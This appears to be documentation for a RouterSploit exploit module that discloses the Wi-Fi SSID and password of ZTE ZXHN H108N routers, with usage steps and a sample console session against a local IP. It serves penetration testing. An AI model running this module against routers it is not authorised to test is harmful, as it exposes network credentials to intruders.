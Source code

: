 ## Description

Module exploits wifi password disclosure vulnerability that allows to retrieve password for wifi connection. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/zte/zxhn_h108n_wifi_password_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable ssid and wifi password is retrieved.

## Scenarios

```
rsf > use exploits/routers/zte/zxhn_h108n_wifi_password_disclosure
rsf (ZTE ZXHN H108N Wifi Password Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (ZTE ZXHN H108N Wifi Password Disclosure) > run
[*] Running module exploits/routers/zte/zxhn_h108n_wifi_password_disclosure...
[+] Target is vulnerable
[*] Discovered information:

   Parameter     Value
   ---------     -----
   SSID Name     SSID Name
   Password      Password

```
